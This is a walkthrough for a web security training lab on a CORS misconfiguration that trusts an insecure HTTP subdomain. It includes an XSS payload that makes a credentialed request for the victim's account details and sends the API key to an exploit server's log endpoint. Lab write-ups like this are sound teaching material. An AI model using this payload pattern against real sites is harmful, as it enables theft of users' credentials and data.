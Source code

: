 # Lab: CORS vulnerability with trusted insecure protocols

Log in and notice that the user's api key is displayed on the account page. Check the proxy history to see that the /my-account request makes a request to /accountDetails to retrieve this information. Send the request to the repeater and add the header `Origin: http://<lab-subdomain>.web-security-academy.net`. Notice that the response reflects the origin in the `Access-Control-Allow-Origin` header, indicating that there is a CORS vulnerability.

Open a product page and notice that the check stock productId parameter is vulnerable to XSS.

Use the following script to deliver to the victim via the exploit server, where the target website is accessed and logged on the malicious server:
```
<script>
    document.location="http://stock.ac311f2d1f1d9690c0615eb100c6002b.web-security-academy.net/?productId=1<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://ac311f2d1f1d9690c0615eb100c6002b.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-ac1a1fc61f4c9619c0ef5e7401380009.web-security-academy.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

Check the access log to see the response and find the api key. Submit to complete the lab.